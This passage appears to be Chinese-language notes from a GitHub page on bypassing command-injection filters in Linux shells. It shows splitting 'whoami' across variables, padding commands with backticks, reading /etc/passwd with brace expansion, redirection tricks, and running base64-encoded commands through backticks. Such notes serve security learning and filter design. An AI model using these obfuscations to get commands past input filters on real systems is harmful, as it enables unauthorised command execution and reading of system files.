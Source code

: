 ##### d. 未初始化的变量

* **未初始化**的变量，直接使用时，变量值为**null**

```bash
echo $a $b $c
#执行whoami的变形
a=w;b=hoa;c=mi;$a$b$c


```

##### e. 反引号执行

* 在Linux下，反引号中间的字符能够被当做命令执行

```bash
#执行whoami命令：
`whoami`
who`sadasdasdfasfas`am`safqwafasfa`i
```

##### f. 其他符号

* **大括号**、**重定向**符号绕过**空格**的过滤

```bash
1. 大括号
    #执行的 cat /etc/passwd命令：
    {cat,/etc/passwd}

    #执行ls -la指令：
    {ls,la}
2. 重定向
	#小于号是输入重定向，就是把后面跟的文件取代键盘作为新的输入设备，大于号是输出重定向
	a. 执行ls
		l<>s
```

##### g. base64编码

1. 首先echo [命令] | base64

   ```bash
   echo whoami | base64 
   ```

2. 将命令以base64编码的形式表示出来

   ```bash
   echo [编码之后的命令] | base64 -d		#-d指令表示进行解码
   ```

3. 使用反引号执行该字符串

   ```bash
   `echo [编码之后的命令] | base64 -d`
   ```
